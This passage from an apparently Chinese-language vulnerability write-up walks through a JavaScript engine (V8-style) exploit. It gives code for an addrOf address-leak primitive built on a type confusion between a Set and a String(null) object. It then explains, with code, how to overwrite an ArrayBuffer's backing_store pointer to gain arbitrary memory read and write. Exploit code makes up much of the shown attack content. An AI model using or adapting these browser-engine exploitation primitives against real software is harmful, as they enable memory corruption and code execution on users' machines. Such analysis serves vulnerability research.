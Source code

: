 ```javascript
function Ctor_a() {
	a = new Set();
}

function str2obj(obj) {
	a.xyz0 = 3.4766863919152113e-308;// 为了避免破坏String(null)->map结构，用原来的值0x0019000400007300进行覆盖
	a.xyz1 = 0; // smi 类型，只会向高4个字节写入，不会破坏低4个字节的String(null)->hash值
	a.xyz2 = 0x8;
	a.xyz3 = obj;
}

var str = new String(null);
function addrOf(obj)
{
	Ctor_a();
	str2obj(obj);
	let addr = str.valueOf();
	let leak_addr = 0;
	for(let i = 0; i < 8; i++){
		leak_addr += addr.charCodeAt(i) * (Math.pow(0x100,i));
	}
	return leak_addr;
}

var data_buf = new ArrayBuffer(0x233);
var data_buf_addr = addrOf(data_buf);
```

（2）修改data_buf->backing_store值

我们得到data_buf对象的地址，就可以根据偏移得到data_buf->backing_store的地址，后面需要对backing_store进行修改构造任意读写原语，但如何通过越界写修改data_buf->backing_store的值？

根据前面对不同类型的property存储的特性可知smi和对象类型会直接赋值，浮点数类型会寻址一次，对找到的地址+8处进行赋值。所以需要将data_buf->backing_store地址-8 当成浮点数类型，后续对其赋值时就能修改data_buf->backing_store的值了。所以需要将data_buf->backing_store-8直接作为String(null)字段的内容。直接赋值data_buf->backing_store-8 不能实现效果，因为data_buf->backing_store-8作为浮点数，会将赋值的字段当成一个HeapNumber，赋值字段内容+8处，而字段本身内容不变。

exp代码是将String(null)对象的值字段覆盖成String(null)对象本身的地址，此时再对值字段赋值data_buf->backing_store-8 时，就会将值字段当成一个HeapNumber，从而将data_buf->backing_store-8 赋值到String(null)+8处，即String(null)->hash。最后再对String(null)->hash赋值目标地址，就会将String(null)->hash当成HeapNumber，将目标地址赋值到（data_buf->backing_store-8）+8处，即data_buf->backing_store。从而达到修改data_buf->backing_store值的目的。

代码如下：

```javascript
function overwrite_backing_store(target)
{
	Ctor_a();
	str2obj(String(null));
	Ctor_b();
	str2value(i2f(backing_store-8)); // 将值字段当成HeapNumber类型
	Ctor_c();
	hash2victim(i2f(target)); //将hash字段当成HeapNumber类型
}
```
